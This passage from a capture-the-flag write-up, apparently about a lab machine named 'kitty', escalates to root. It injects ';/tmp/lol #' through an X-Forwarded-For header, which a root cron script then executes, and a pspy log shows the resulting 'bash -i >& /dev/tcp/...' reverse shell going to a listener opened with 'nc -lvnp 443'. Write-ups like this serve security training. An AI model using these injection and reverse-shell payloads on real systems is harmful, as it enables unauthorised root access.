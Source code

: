 Starting our listener.

```console
$ nc -lvnp 443
listening on [any] 443 ...
```

Sending our command injection payload: `;/tmp/lol #`

- `;` to escape the echo command.
- `/tmp/lol`: command we want to inject.
- `#`: to comment out the rest of the command.

```console
kitty@kitty:/var/www/development$ curl -s 'http://127.0.0.1:8080/index.php' -X POST -d 'username=sleep&password=password' -H 'X-Forwarded-For: ;/tmp/lol #'

SQL Injection detected. This incident will be logged!
```

With this payload, `;/tmp/lol #` will be written to `/var/www/development/logged` and the command inside `/opt/log_checker.sh` will be `/usr/bin/sh -c "echo ;/tmp/lol # >> /root/logged"`.

We see the execution of our payload with `pspy`.

```
2024/02/03 18:07:01 CMD: UID=0     PID=3590   | /usr/sbin/CRON -f 
2024/02/03 18:07:01 CMD: UID=0     PID=3591   | /bin/sh -c /usr/bin/bash /opt/log_checker.sh 
2024/02/03 18:07:01 CMD: UID=0     PID=3592   | /usr/bin/bash /opt/log_checker.sh 
2024/02/03 18:07:01 CMD: UID=0     PID=3593   | /usr/bin/sh -c echo ;/tmp/lol # >> /root/logged 
2024/02/03 18:07:01 CMD: UID=0     PID=3594   | /bin/bash /tmp/lol 
2024/02/03 18:07:01 CMD: UID=0     PID=3595   | bash -c bash -i >& /dev/tcp/10.11.63.57/443 0>&1 
```

On our listener, we receive a shell as root and can read the root flag.

```console
root@kitty:~# id
uid=0(root) gid=0(root) groups=0(root)
root@kitty:~# wc -c root.txt
38 root.txt
```